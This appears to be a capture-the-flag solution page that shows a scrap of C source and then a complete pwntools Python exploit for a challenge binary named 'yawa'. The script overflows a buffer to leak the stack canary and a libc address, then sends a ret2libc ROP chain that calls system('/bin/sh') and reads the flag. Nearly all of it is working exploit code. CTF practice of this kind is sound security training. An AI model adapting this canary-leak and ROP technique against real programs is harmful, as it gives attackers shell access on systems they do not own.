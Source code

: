 ```
        } else {
            break;
        }
    }
}

```



## solutions

#my-solution

```
#!/usr/bin/env python3

from pwn import *
import struct
# context.log_level = 'debug'

exe = ELF("./yawa", checksec=False)
context.binary = exe

libc = ELF("./libc.so.6", checksec=False)

io = exe.process()

io.sendlineafter(b'>', b'1')
io.send(b'a' * 89)
io.sendlineafter(b'>', b'2')
r = io.recvline()
canary = u64(r[-9:-2].ljust(8, b'\x00')) << 8
print("Canary: ", hex(canary))

MAIN_RETURN_ADDRESS = 0x29d90
# find libc base address
io.sendlineafter(b'>', b'1')
io.send(b'y' * 104)
io.sendlineafter(b'>', b'2')
r = io.recvline() 
libc_base = u64(r[-7:-1].ljust(8, b'\x00')) - MAIN_RETURN_ADDRESS

# Set base address
libc.address = libc_base
print("LIBC", hex(libc.address))
print(type(libc.address))

# get address of ret gadget, pop rdi gadget, '/bin/sh' string and system function
io.sendlineafter(b'>', b'1')
rop = ROP(libc)
rop.raw(b'a' * 88)
rop.raw(canary)
rop.raw(p64(0))
rop.rdi = p64(next(libc.search(b'/bin/sh\x00')))
rop.raw(p64(rop.find_gadget(['ret']).address))
rop.call('system')
io.send(rop.chain())

io.sendlineafter(b'>', b'3')
io.sendline(b'cat flag.txt')

print(io.readline().decode())
```
